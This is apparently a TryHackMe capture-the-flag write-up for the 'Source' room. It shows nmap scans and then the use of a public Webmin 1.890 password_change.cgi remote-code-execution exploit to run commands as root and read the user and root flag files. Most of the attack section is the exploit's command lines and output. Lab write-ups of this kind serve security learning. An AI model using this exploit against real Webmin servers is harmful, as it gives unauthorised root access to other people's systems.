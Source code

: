 ## Source 

Room link: https://tryhackme.com/room/source

## Initial Access
As always, I ran an aggressive NMAP scan to start. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A [REMOTE IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-25 21:07 EDT
Nmap scan report for [REMOTE IP]
Host is up (0.084s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.31 seconds
```
Alongside the aggressive NMAP scan, I wanted to see if there were any high ports. 
```
ajread@aj-ubuntu:~$ nmap -p- [REMOTE IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-25 21:07 EDT
Nmap scan report for [REMOTE IP]
Host is up (0.075s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
10000/tcp open     snet-sensor-mgmt
28051/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 171.06 seconds
```
I first looked at the webserver on port 10000. It appeared to be vulnerable to an RCE exploit that appears to impact the ```/password_change.cgi``` portion of the server. I found a POC on github (```https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py```) and used it to execute code. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 webmin-1.890_exploit.py [REMOTE IP] 10000 whoami


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
root
</p>
curl: (56) OpenSSL SSL_read: error:0A000126:SSL routines::unexpected eof while reading, errno 0
```
I did some looking around running various commands and found a user named ```dark``` with the flag in their home directory. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 webmin-1.890_exploit.py [REMOTE IP]10000 "cat /home/dark/user.txt"


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
THM{[REDACTED]}
</p>
curl: (56) OpenSSL SSL_read: error:0A000126:SSL routines::unexpected eof while reading, errno 0
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 webmin-1.890_exploit.py [REMOTE IP] 10000 "wc -c /home/dark/user.txt"


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
29 /home/dark/user.txt
</p>
curl: (56) OpenSSL SSL_read: error:0A000126:SSL routines::unexpected eof while reading, errno 0
```
## Privilege Escalation
Since I was already running as root, I could also read the root flag. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 webmin-1.890_exploit.py [REMOTE IP] 10000 "cat /root/root.txt"


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
THM{[REDACTED]}
</p>
curl: (56) OpenSSL SSL_read: error:0A000126:SSL routines::unexpected eof while reading, errno 0
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 webmin-1.890_exploit.py [REMOTE IP] 10000 "wc -c /root/root.txt"


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
25 /root/root.txt
</p>
curl: (56) OpenSSL SSL_read: error:0A000126:SSL routines::unexpected eof while reading, errno 0
```